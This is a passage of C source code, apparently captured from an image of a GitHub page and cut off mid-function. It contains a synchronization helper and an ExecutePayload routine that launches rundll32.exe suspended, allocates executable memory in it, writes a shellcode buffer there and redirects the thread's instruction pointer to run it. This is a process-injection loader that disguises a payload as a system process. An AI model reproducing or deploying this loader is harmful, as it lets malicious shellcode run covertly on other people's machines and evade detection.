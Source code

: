 ```c
		// step 4: check if the event already exists
		if (hEvent = OpenEventA(READ_CONTROL | SYNCHRONIZE, TRUE, szSyncNameE)) {
			// if the event already exists, do not continue
			CloseHandle(hEvent);
			break;
		}

		// step 5: if the event does not already exist, create a new one that will be inherited by the child process
		if (hEvent = CreateEventA(&SecurityAttributes, TRUE, TRUE, szSyncNameE)) {
			bResult = TRUE;
		}
	} while (FALSE);


	// step 6: release and close the semaphore as necessary
	if (hSemaphore) {
		if (bRelease) {
			ReleaseSemaphore(hSemaphore, 1, NULL);
		}
		CloseHandle(hSemaphore);
	}
	// *do not* close the event handle (hEvent), it needs to be inherited by the child process
	return bResult;
}

void ExecutePayload(void) {
	int error;
	PROCESS_INFORMATION pi;
	STARTUPINFO si;
	CONTEXT ctx;
	DWORD prot;
	LPVOID ep;

	// Start up the payload in a new process
	inline_bzero( &si, sizeof( si ));
	si.cb = sizeof(si);

	if (Synchronize()) {
		// Create a suspended process, write shellcode into stack, make stack RWX, resume it
		DWORD result = CreateProcess(NULL, "rundll32.exe", NULL, NULL, TRUE, CREATE_SUSPENDED|IDLE_PRIORITY_CLASS|CREATE_BREAKAWAY_FROM_JOB, NULL, NULL, &si, &pi);
		
		// If we fail, try again without the CREATE_BREAKAWAY_FROM_JOB flag in the event that we are in a job but we can't break away from it.
		if (result == FALSE){
			result = CreateProcess(NULL, "rundll32.exe", NULL, NULL, TRUE, CREATE_SUSPENDED|IDLE_PRIORITY_CLASS, NULL, NULL, &si, &pi);
		}

		if (result) {
			ctx.ContextFlags = CONTEXT_INTEGER|CONTEXT_CONTROL;
			GetThreadContext(pi.hThread, &ctx);

			ep = (LPVOID) VirtualAllocEx(pi.hProcess, NULL, SCSIZE, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

			WriteProcessMemory(pi.hProcess,(PVOID)ep, &code, SCSIZE, 0);

	#ifdef _WIN64
			ctx.Rip = (DWORD64)ep;
	#else
			ctx.Eip = (DWORD)ep;
```